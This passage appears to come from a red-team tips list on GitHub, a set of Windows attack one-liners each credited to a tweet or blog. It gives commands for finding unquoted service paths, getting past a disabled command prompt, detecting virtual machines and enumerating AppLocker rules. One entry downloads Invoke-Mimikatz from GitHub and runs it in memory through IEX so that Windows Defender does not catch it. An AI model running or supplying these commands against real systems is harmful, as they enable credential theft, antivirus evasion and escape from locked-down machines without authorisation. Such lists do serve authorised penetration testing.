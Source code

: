 ```bash
Get-CIMInstance -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

**Description:** *'Finding unquoted service paths without PowerUp'*

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1579254955554136064)

### [🔙](#tool-list)Bypass a disabled command prompt with /k

```bash
# Win+R (To bring up Run Box)
cmd.exe /k "whoami"
```

**Description:** *'This command prompt has been disabled by your administrator...' Can usually be seen in environments such as kiosks PCs, a quick hacky work around is to use /k via the windows run box. This will carry out the command and then show the restriction message, allowing for command execution.*

**Credit:** Martin Sohn Christensen

**Link:** [Blog](https://improsec.com/tech-blog/the-command-prompt-has-been-disabled-by-your-administrator-press-any-key-to-continue-or-use-these-weird-tricks-to-bypass-admins-will-hate-you)

### [🔙](#tool-list)Stop windows defender deleting mimikatz.exe

```bash
(new-object net.webclient).downloadstring('https://raw.githubusercontent[.]com/BC-SECURITY/Empire/main/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')|IEX;inv
```

**Description:** *'Are you tired of Windows Defender deleting mimikatz.exe? Try this instead.'*

**Credit:** [@GuhnooPlusLinux](https://twitter.com/GuhnooPlusLinux)

**Link:** [Twitter](https://twitter.com/GuhnooPlusLinux/status/1605629049660809216)

### [🔙](#tool-list)Check if you are in a virtual machine

```bash
reg query HKLM\SYSTEM /s | findstr /S "VirtualBox VBOX VMWare"
```

**Description:** *'Want to know if you are in a Virtual Machine? Query the registry Keys and find out!!! If any results show up then you are in a Virtual Machine.'*

**Credit:** [@dmcxblue](https://twitter.com/dmcxblue)

**Link:** [Twitter](https://twitter.com/dmcxblue/status/1366779034672136194)

### [🔙](#tool-list)Enumerate AppLocker rules

```
(Get-AppLockerPolicy -Local).RuleCollections

Get-ChildItem -Path HKLM:Software\Policies\Microsoft\Windows\SrpV2 -Recurse

reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Exe\
```
